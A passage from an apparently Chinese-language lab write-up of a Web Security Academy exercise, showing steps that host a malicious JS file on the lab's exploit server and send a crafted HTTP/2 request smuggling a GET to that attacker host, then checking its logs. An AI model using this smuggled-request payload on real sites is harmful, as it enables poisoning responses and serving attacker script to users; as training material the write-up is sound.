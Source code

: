 [![](assets/1705287960-e4894be1f48b829fc9c14914abc1e531.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103439-f7f82980-b029-1.png)  
Step 4：随后我们使用靶场提供的恶意服务器主机托管一个恶意 JS 文件  
[![](assets/1705287960-7a9af3c3b33237cca6dc61956d2918cf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103451-ff1f12aa-b029-1.png)  
Step 5：随后修改之前的请求数据包去请求恶意服务器上的 resouces 文件

```bash
POST / HTTP/2
Host: 0aed00cf039321e185db1c3f00a80002.web-security-academy.net
Cookie: session=LPq3scqI6nFu4qD2LbowPurZhkiVCXtY
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0ac2009903692136853e1b6701c3001b.exploit-server.net
Content-Length: 6

x=1
```

[![](assets/1705287960-db48530aebc72f676054fe5346ec4bb6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103510-0aa74f2a-b02a-1.png)  
随后我们可以在恶意服务器端的日志中看到有来自目标靶机的请求记录：
